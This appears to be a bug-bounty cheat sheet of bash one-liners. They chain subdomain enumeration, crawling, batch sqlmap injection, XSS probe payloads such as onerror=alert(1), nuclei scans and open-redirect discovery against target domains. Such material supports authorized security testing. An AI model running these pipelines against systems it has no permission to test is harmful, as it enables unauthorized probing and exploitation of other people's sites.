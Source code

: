 ## Ferramentas necessárias

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx-ToolKit](https://www.kali.org/tools/httpx-toolkit/)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>

###  Findomain. 

```bash
findomain -t $(cat url) -q | httpx-toolkit -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew findomainSQLI
```

###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew subfinder1

subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | katana -d 5 -silent -em js,jsp,json | anew subfinder2
```


###  Waybackurls. 

```bash
echo $(cat url) | waybackurls | uro | gf xss | dalfox pipe --skipe-bav | anew dalfox
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx-toolkit -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```


###  Qsreplace. 

```bash
echo $(cat url) | httpx-toolkit -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew qsreplace
```



###  Hakrawler. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew hakrawler
```



###  Freq. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew freq
```



###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx-toolkit -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```
